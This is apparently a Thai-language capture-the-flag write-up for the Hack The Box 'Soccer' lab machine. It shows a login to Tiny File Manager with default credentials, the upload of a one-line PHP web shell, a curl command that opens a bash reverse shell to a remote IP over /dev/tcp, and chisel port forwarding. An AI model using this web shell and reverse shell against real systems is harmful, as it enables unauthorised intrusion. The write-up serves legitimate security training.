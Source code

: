 ## TCP 80 

```bash
feroxbuster -u http://soccer.htb
```
จากภาพด้านล่างจะเห็นว่ามี /tiny และ /tiny/uploads 
![[Challenge/HTB Challenge/Soccer/IMG/001.png]]

![[Challenge/HTB Challenge/Soccer/IMG/002.png]]

หากเราตรวจสอบถึงโปรแกรมจะเห็นว่าเป็นโปรแกรม filemanager https://github.com/prasathmani/tinyfilemanager 
![[Challenge/HTB Challenge/Soccer/IMG/003.png]]

## Mis configuration

ตรวจสอบ default credential ของโปรแกรมดังกล่าวจะเห็นว่ามีการใช้ admin:admin@123
![[Challenge/HTB Challenge/Soccer/IMG/004.png]]

เมื่อนำข้อมูลดังกล่าวมาทดสอบ ปรากฎว่าสามารถเข้าได้ ด้วยสิทธิ admin 
![[Challenge/HTB Challenge/Soccer/IMG/005.png]]

จากนั้นเราจะทำการทดสอบ upload php shell ไปยังเป้าหมาย

```php
<?php system($_REQUEST["cmd"]); ?>
```

จากนั้น upload ไปที่ path /tiny/uploads  

![[Challenge/HTB Challenge/Soccer/IMG/006.png]]

จากนั้นทดสอบเรียกใช้ shell ได้ดังต่อไปนี้ 
```bash
curl http://soccer.htb/tiny/uploads/cmd.php -d 'cmd=id'
```

จากนั้นยิงด้วยคำสั่ง

```bash
curl http://soccer.htb/tiny/uploads/cmd.php -d 'cmd=bash -c "bash -i >%26 /dev/tcp/10.10.14.6/443 0>%261"'
```

![[Challenge/HTB Challenge/Soccer/IMG/007.png]]

จากการ enum จะเห็นว่ามี พอร์ต 3000 ที่เปิดใช้งานสำหรับ nginx อยู่ 

![[Challenge/HTB Challenge/Soccer/IMG/008.png]]

## Local port forwarding using chisel 
```bash
chisel server -p 8000 --reverse
./chisel_linx64 client 10.10.14.34:8000 R:3000:127.0.0.1:3000
```
![[Challenge/HTB Challenge/Soccer/IMG/009.png]]
